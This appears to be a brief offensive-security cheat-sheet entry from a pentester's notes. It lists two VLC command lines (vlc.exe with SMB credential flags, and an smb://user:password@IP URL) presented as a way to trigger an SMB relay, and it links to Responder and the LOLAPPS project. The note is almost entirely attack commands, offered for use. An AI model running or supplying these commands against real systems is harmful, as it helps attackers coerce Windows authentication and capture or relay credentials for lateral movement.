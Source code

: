 # VLC

Execute command to perform SMB relay.

```
C:\> vlc.exe -q -I smb --smb-user <username> --smb-pwd <password> --smb-domain <domain>

C:\> vlc.exe -q smb://<username>:<password>@<IP>
```

---
## References

### Backlinks

- [[02 - Responder|Responder]]

### LOLAPPS

-  [LOLAPPS (Living Off The Land Applications)](https://lolapps-project.github.io/)